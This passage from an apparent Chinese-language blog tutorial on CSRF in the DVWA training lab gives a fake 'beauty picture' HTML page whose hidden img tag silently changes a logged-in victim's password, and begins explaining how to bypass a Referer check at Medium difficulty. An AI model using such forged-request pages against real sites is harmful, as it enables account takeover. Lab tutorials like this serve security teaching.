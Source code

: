 我们先编写一下假网站的代码，如下（_注意修改其中的具体地址_）：

    <!DOCTYPE html>
    <html>
        <meta charset="utf-8" />
        <head>
            <title>这是一个用于 CSRF 的假网站</title>
        </head>
        <body>
            <img src="http://192.168.117.131/vulnerabilities/csrf/?password_new=1234567890&password_conf=1234567890&Change=Change#" />
            <br />
            一张美女图片，请欣赏！
        </body>
    </html>
    

在这个假网站中，我们通过嵌入 img 标签的形式（因为天生可以跨域）悄悄地发送_修改密码为 1234567890 的请求_。

最后将该网站部署在 192.168.117.129 这台机器上，端口号为 8080。

#### C. 受害者上钩

在点击 _Logout_ 重新登陆、调整难度为 _Low_、修改完密码为 _123456_ 这三个步骤后，假装“鬼使神差”地打开了这个网站XD。_“咦~，美女图片怎么看不了啊，算了算了不看了”。_ 此时返回正常页面，再次点击 _TestCredentials_ 按钮，发现密码 _123456_ 已经不正确了，我们的密码已经在暗中被修改了！！！

![](https://img2023.cnblogs.com/blog/1611896/202301/1611896-20230127173800732-1139830426.png)

_**扮演受害者需要注意的是，因为调整的难度等级也存在 cookie 中，因此一定要点击 Logout 后重新登录，调整难度为 Low，否则无法达到预期的效果。**_

通过 F12 可以看到，在 Request Header 中向正常网站发送了 Cookie，让正常网站以为是用户的操作。而此时，一心要查看“美女图片”的用户是毫无察觉的。

![](https://img2023.cnblogs.com/blog/1611896/202301/1611896-20230127173812404-819495637.png)

### 3\. Medium 难度实操

#### A. 分析与攻击

![](https://img2023.cnblogs.com/blog/1611896/202301/1611896-20230127173830968-1797913063.png)

查看下源代码，发现通过 _stripos_ 函数对 HTTP 请求的 Referer 头进行了包含性验证。如果我们拦截请求并篡改了 Referer 头为它想要的值，是不是就可以了？

通过观察正常请求，可以发现：

> Referer: [http://192.168.117.131/vulnerabilities/csrf/](http://192.168.117.131/vulnerabilities/csrf/)

在正常的请求头中添加 Referer 字段为此值即可。修改我们的恶意“美女图片”网站如下：

    <!DOCTYPE html>
    <html>
        <meta charset="utf-8" />
        <head>
            <title>这是一个用于 CSRF 的假网站</title>
        </head>
        <body>
            <img src="jia_zhuang_shi_yi_zhang_tu_pian" />
            <br />
            一张美女图片，请欣赏！
    